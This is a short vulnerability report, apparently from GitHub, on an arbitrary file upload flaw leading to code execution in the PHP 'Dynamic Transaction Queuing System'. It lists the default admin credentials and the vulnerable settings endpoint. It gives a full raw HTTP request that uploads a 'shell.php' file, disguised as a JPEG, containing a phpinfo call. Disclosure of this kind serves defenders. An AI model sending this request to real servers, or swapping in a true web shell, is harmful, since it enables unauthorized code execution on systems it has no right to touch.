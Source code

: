 # Dynamic Transaction Queuing System v1.0 by oretnom23 has arbitrary code execution (RCE)

BUG_Author: ATKF

vendors: https://www.sourcecodester.com/php/14479/dynamic-transaction-queuing-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Login account: admin/admin123 (Super Admin account)

Vulnerability url: ip/queuing/admin/ajax.php?action=save_settings

Loophole location: Dynamic Transaction Queuing System's "/queuing/admin/ajax.php?action=save_settings" file exists arbitrary file upload (RCE)

Request package for file upload：

```sql
POST /queuing/admin/ajax.php?action=save_settings HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/queuing/admin/index.php?page=site_settings
Content-Length: 603
Content-Type: multipart/form-data; boundary=---------------------------62511349610243
Cookie: PHPSESSID=t4551shae3529036q2g0j8luub
Connection: close

-----------------------------62511349610243
Content-Disposition: form-data; name="name"

admin
-----------------------------62511349610243
Content-Disposition: form-data; name="email"

1@qq.com
-----------------------------62511349610243
Content-Disposition: form-data; name="contact"

11
-----------------------------62511349610243
Content-Disposition: form-data; name="about"


-----------------------------62511349610243
Content-Disposition: form-data; name="img"; filename="shell.php"
Content-Type: image/jpeg

<?php phpinfo(); ?>
-----------------------------62511349610243--
```

The files will be uploaded to this directory \queuing\admin\assets\img\
![image](https://user-images.githubusercontent.com/54017627/199706548-c6f92273-97da-4b8d-a32b-25d05fa1468c.png)


We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/199706600-9232fc0f-3672-4d07-b0a2-3da4fd0758cd.png)

